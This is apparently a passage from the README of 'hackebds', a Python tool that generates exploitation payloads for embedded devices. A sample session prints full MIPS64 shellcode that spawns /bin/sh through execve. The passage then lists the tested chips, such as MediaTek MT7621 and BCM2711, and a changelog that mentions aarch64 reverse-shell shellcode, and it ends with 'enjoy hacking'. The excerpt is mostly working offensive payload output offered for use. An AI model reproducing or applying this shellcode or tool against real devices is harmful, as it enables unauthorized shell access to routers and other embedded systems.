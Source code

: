 3. Added that shellcode for calling execve cannot be generated in shellcraft (change context generate mips64(el), powerpc shell code for execve("/bin/sh",["/bin/sh"]),0))

   ```
   >>> from hackebds import *
   >>> test = ESH()
   [*] arch is i386
   [*] endian is little
   [*] bits is 32
   >>> test.sh()
   [*] Please set correct assembly schema information(pwerpc or mips64(el))
   >>> context.arch = 'mips64'
   >>> test.sh()
   "\n\t\t\t/* execve(path='/bin/sh', argv=['sh'], envp=0) */\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1, -8($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -8\n\t\t\tdadd     $a0, $sp, $zero\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1,-12($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -8($sp)\n\t\t\tsw      $zero, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -12\n\t\t\tslti    $a1, $zero, -1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tli      $t9, -9\n\t\t\tnor     $a1, $t9, $zero\n\t\t\tdadd     $a1, $sp, $a1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tdadd     $a1, $sp, $zero\n\t\t\tslti    $a2, $zero, -1\n\t\t\tli      $v0, 0x13c1\n\t\t\tsyscall 0x40404\n\t\t\t"
   >>> test.sh()
   
   ```

## chips and architectures

Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian,
MIPS 24kc V5.0  little endian (Ralink SoC) like MediaTek MT7621
Ingenic Xburst V0.0  FPU V0.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660
BCM2711

Powerpc, sparc: qemu


## :beer:enjoy hacking


## updating

 2022.4.19 Added support for aarch64 null-byte reverse_shellcode

 2022.4.30 Reduced amount of code using functions and support python3
